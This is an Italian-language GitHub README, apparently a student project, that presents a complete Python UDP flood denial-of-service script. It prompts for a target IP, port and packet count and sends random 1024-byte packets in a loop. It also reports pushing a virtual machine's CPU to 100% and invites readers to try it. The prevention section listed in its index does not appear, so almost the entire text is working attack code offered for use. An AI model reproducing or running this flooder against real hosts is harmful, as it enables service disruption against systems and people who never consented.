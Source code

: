 # **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice
1. [Codice](#Codice)
2. [Prestazioni](#Prestazioni)
3. [Prevenzioni](#Prevenzioni)

## Codice
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni**
<p>Questo screenshot mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale </p> ![immagine](https://github.com/user-attachments/assets/17f63b82-4b9e-4256-8e3b-f2b0495e8a33)

Provare per credere😅




